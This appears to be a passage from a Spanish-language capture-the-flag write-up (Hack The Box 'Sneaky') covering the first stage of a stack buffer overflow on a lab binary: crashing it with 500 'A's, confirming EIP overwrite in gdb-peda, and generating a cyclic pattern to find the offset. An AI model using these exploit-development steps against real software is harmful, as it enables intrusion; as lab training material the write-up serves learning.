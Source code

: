 ```bash
# ./chall $(python -c 'print "A"*500') 
zsh: segmentation fault  ./chall $(python -c 'print "A"*500')
```
Aqui le pasamos 500 `A` y el programa peta.

Para instalar `gdb-peda` tiramos de `“apt”`
Posteriormente tendriamos que instalar "peda" desde https://github.com/longld/peda
`SEGUIR LOS PASOS DE PEDA`
Usamos gdb para pasarle el payload de 500 "A" y analizar la pila a bajo nivel con `gdb`
```bash
# gdb ./chall                                                                                                                                      139 ⨯
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
(gdb)  r $(python -c 'print "A"*500') 
Starting program: /home/pro/Escritorio/HTB/Sneaky/exploits/chall $(python -c 'print "A"*500')

Program received signal SIGSEGV, Segmentation fault.
"0x41414141" in ?? ()
(gdb) 
```
Tenemos el EIP Sobrescrito con nuestras `AAA'S`
Ahora cuantas `AAA..` tenemos que poner hasta llegar al EIP?
Eso lo calculamos de la siguiente forma:

Con `pattern_create 500`como comando creamos unos caracteres especiales para averiguar cuantas AAAA.. tenemos que poner hasta llegar al `EIP`
```bash
#gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAAp
AATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%
MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2A
sHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```
Ahora le pasamos al programa estos caracteres especialmente creados por Pattern_create para detectar cuando se esta sobrescribiento el EIP
```bash
# gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAm
AARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%
LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGA
scAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'

```